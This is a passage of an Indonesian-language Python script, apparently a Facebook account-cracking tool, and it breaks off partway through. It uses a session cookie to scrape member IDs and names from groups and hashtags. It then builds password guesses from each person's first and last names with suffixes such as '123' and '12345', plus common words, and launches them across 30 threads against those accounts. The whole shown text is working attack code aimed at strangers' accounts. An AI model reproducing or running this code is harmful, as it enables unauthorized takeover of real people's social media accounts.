 		if "Halaman yang diminta tidak bisa ditampilkan sekarang." in str(ged):
			print("[+] Group tidak ditemukan\n")
			input("[=] ENTER TO BACK HOME ..")
			menu()
		name = ged.find("title").text
		name = name.replace("Anggota","").strip()
		print("[!] CTRL + C to stop")
		print("[=] Name group: "+name)
		Dump(config[0]).Groups("browse/group/members/?id="+idg+"&start=0&listType=list_nonfriend_nonadmin&refid=18&_rdc=1&_rdr")
	elif pilih in ["05","5"]:
		tag = input("[?] Hashtag: ")
		if "#" in tag:
			qu = tag.replace("#","")
		else:
			qu = tag
		cek = ses.get(url+"hashtag/"+qu, cookies={"cookie":config[0]}).text
		if "Konten Ini Tidak Tersedia" in str(cek):
			print("[+] Konten ini tidak tersedia")
			input("[=] ENTER TO BACK HOME ..")
			menu()
		Dump(config[0]).Hashtag("hashtag/"+qu)
	else:
		exit("[!] Pilih yang bener\n")

	tnya = input("\n[?] Use manual password? [Y/T]: ")
	while tnya == "":
		tnya = input("\n[?] Use manual password? [Y/T]: ")

	if tnya in list("Tt"):
		with ThreadPoolExecutor(max_workers=30) as sub:
			for uid in id:
				usenm = uid.split("|")
				name = usenm[1].split(" ")
				if len(name) == 1:
					listpw = [
						name[0]+"123",
						name[0]+"12345",
						name[0]+"321",
						name[0]+"54321",
						"mantan", "anjing", "sayang"
					]
				elif len(name) == 2:
					listpw = [
						name[0]+"123",
						name[0]+"12345",
						name[0]+"321",
						name[0]+"54321",
						name[1]+"123",
						name[1]+"12345",
						name[1]+"321",
						name[1]+"54321",
						"mantan", "anjing", "sayang"
					]
				elif len(name) == 3:
					listpw = [
						name[0]+"123",
						name[0]+"12345",
						name[0]+"321",
						name[0]+"54321",
						name[1]+"123",
						name[1]+"12345",
						name[1]+"321",
						name[1]+"54321",